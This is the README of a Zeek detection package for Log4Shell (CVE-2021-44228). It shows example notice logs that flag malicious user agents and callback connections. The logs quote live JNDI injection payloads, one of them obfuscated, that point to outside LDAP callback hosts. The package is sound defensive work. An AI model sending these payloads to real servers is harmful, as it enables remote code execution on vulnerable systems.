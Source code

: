 =================================================================================
Simple policy to detect  CVE_2021_44228 aka Log4j
=================================================================================

Following functionality are provided by the script
--------------------------------------------------
::
        1) Log4j zeek package identifies CVE_2021_44228 exploitation attempts 
        2) extracts the callback IP + domain and watches  them
        3) builds realtime IoCs from these attacks and realtime adds to the intel-framework

Installation
------------
	zeek-pkg install zeek/initconf/log4j
	or
	@load log4j/scripts


Detailed Notes:
---------------

Detail Alerts and descriptions: Following alerts are generated by the script:
******************************************************************************
This should generate following Kinds of notices:

        - Log4j::UserAgent
        - Log4j::CallBackIP
        -  Log4j::CallBack

Example notice: 
***************************

XXXXXXXXXX.XXXXXX       CmES5u32sYpV7JYN        45.131.195.245  18677   12.23.36.5    80      -       -       -       tcp     Log4j::UserAgent       Malicious user agent Mozilla/5.0 ${jndi:ldap://45.58.177.50:1389/Rsc} seen from host 45.131.195.245     -       45.131.195.245 12.23.36.5    80      -       -       Notice::ACTION_LOG      (empty) 3600.000000     -       -       -       -       -     --

XXXXXXXXXX.XXXXXX       -       45.131.195.245  18677   12.23.36.5    80      -       -       -       tcp     Log4j::CallBackIP     Callback IP [45.58.177.50] seen from host 45.131.195.245 with payload of [[uri=45.58.177.50:1389/Rsc, uri_path=Rsc, stem=45.58.177.50:1389, host=45.58.177.50, port_=1389/tcp]] -       45.58.177.50    12.23.36.5    80      -       -       Notice::ACTION_LOG      (empty)86400.000000    -       -       -       -       -       -       -

XXXXXXXXXX.XXXXXX       CDI95K1GQpHhlE1WO3      192.168.86.35   64759   45.58.177.50    1389    -       -       -       tcp     Log4j::CallBack        Possible Successful Callback seen [45.58.177.50:1389/tcp] : attack connection [orig_h=45.131.195.245, orig_p=18677/tcp, resp_h=12.23.36.5, resp_p=80/tcp]    -       45.58.177.50    45.58.177.50    1389    -       -       Notice::ACTION_LOG      (empty)1800.000000


Complex regexps:

XXXXXXXXXX.XXXXXX       ClEkJM2Vm5giqnMf4h      149.209.6.114   45754   131.177.124.168 80      -       -       -       tcp     Log4j::UserAgent       Malicious user agent ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://185.254.196.236:1389/jijec} seen from host 149.209.6.114   -       149.209.6.114   131.177.124.168 80      -       -       Notice::ACTION_LOG      (empty) 3600.000000

Embedded domains: 

XXXXXXXXXX.XXXXXX       CtPZjS20MLrsMUOJi2      14.36.22.37     34404   134.93.97.18    80      -       -       -       tcp     Log4j::UserAgent        Malicious user agent Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@${jndi:ldap://User-Agent.blah.com.jg33feb5c7b2ui8djt4bb9dntez6nv.burpcollaborator.net/a.bc} seen from host 14.36.22.37    -       14.36.22.37     134.93.97.18    80      -       -       Notice::ACTION_LOG      (empty) 3600.000000

Also resolves the domain and watches for the IP/port:

XXXXXXXXXX.XXXXXX       -       14.36.22.37     34404   134.93.97.18    80      -       -       -       tcp     Log4j::CallBackIP       Callback IP [52.16.21.24] seen from host 14.36.22.37 with payload of [[uri=User-Agent.blah.com.jg33feb5c7b2ui8djt4bb9dntez6nv.burpcollaborator.net/a.bc, uri_path=a.bc, stem=User-Agent.blah.com.jg33feb5c7b2ui8djt4bb9dntez6nv.burpcollaborator.net, host=52.16.21.24, port_=80/tcp]]    -       52.16.21.24 134.93.97.18    80      -       -       Notice::ACTION_LOG      (empty) 86400.000000



Example Summary Notice: 
***************************



